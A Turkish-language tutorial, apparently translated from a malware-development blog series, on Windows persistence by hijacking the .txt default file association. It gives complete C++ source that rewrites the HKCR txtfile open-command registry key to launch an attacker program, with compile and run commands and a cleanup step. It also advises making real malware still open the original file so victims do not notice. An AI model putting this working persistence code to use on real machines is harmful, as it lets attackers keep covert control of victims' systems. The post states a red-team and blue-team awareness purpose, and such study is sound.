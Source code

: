 \newpage
\subsection{75. zararlı yazılım geliştirme: kalıcılık - bölüm 9. Varsayılan dosya uzantısı ele geçirme. Basit C++ örneği.}

﷽

![pers](./images/66/2022-08-29_02-25.png){width="80%"}    

Bu makale, ilginç zararlı yazılım kalıcılık tekniklerinden biri olan varsayılan dosya uzantısı ele geçirme üzerine kendi araştırmamın bir sonucudur.   

### varsayılan dosya ilişkilendirmesi (default file association)     

Örneğin, bir `.txt` dosyasına çift tıklandığında, açmak için `notepad.exe` kullanılır.    

![pers](./images/66/2022-08-29_02-17.png){width="80%"}    

Windows, `.txt` dosyalarına erişmek için `notepad.exe` kullanması gerektiğini bilir, çünkü `.txt` uzantısı (ve diğer birçok uzantı), bu tür dosyaları açabilen uygulamalara kayıt defterinde `HKEY_CLASSES_ROOT` altında eşlenmiştir.    

Varsayılan bir dosya ilişkilendirmesini ele geçirmek ve kötü amaçlı bir program çalıştırmak mümkündür.     

### pratik örnek    

Şimdi `.txt` uzantısını ele geçireceğiz. Bu durumda, `.txt` uzantısının işleyicisi aşağıdaki kayıt defteri anahtarında belirtilmiştir:    

`HKEY_CLASSES_ROOT\txtfile\shell\open\command`    

Komutu çalıştırın:    

```powershell
reg query "HKCR\txtfile\shell\open\command" /s
```

![pers](./images/66/2022-08-29_02-19.png){width="80%"}    

Ardından, "kötü amaçlı" uygulamamızı oluşturun:     

```cpp
/*
hack.cpp
evil app for windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Gördüğünüz gibi, mantık her zamanki gibi oldukça basit: sadece `meow-meow` mesaj kutusunu açıyor.    

Bir sonraki adımda, aşağıdaki komut dosyasıyla `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` değer verisini değiştirerek `.txt` dosya uzantısını ele geçirin:    

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)
  "\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, 
    strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Gördüğünüz gibi, bu kaynak kodunda sadece `%SystemRoot%\system32\NOTEPAD.EXE %1` ifadesini `Z:\2022-08-26-malware-pers-9\hack.exe` ile değiştiriyoruz.    

### demo

Her şeyi çalışırken görelim. Kötü amaçlı yazılımımızı derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-21.png){width="80%"}    

Oluşturulan `hack.exe` dosyası, kurbanın makinesine yerleştirilmelidir.      

Ardından, kalıcılıktan sorumlu programı derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-22.png){width="80%"}    

Oluşturulan `pers.exe` dosyası da kurbanın makinesine yerleştirilmelidir.     

Ardından sadece çalıştırın:    

```powershell
.\pers.exe
```

![pers](./images/66/2022-08-29_02-21.png){width="80%"}    

Öyleyse, bir `.txt` dosyası açmayı deneyin, örneğin `test.txt` dosyasına çift tıklayın:     

![pers](./images/66/2022-08-29_02-22.png){width="80%"}    

![pers](./images/66/2022-08-29_02-24.png){width="80%"}    

Gördüğünüz gibi, “malware” çalıştırılacaktır. Mükemmel! :)   

Ardından, temizleme işlemi:     

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

![pers](./images/66/2022-08-29_02-34.png){width="80%"}    

Gerçek bir malware’de bunu biraz farklı bir mantıkla yapmak iyi bir uygulama olacaktır, böylece kurban kullanıcı hala orijinal `.txt` dosyasını açabilecek, ancak ek olarak kötü amaçlı etkinliği de çalıştıracaktır.     

Bu kalıcılık tekniği [SILENTTRINITY](https://attack.mitre.org/software/S0692/) framework’ü ve [Kimsuky](https://attack.mitre.org/groups/G0094/) siber casusluk grubu tarafından kullanılmaktadır. Bu malware, 2019 yılında Hırvatistan hükümet kurumlarına yönelik bir kampanyada kimliği belirsiz siber aktörler tarafından kullanılmıştır.    

Umarım bu yazı, mavi takım üyelerinin bu ilginç teknik hakkında farkındalığını artırır ve kırmızı takım üyelerinin cephaneliğine bir silah ekler.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)      
[Github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-08-26-malware-pers-9)       

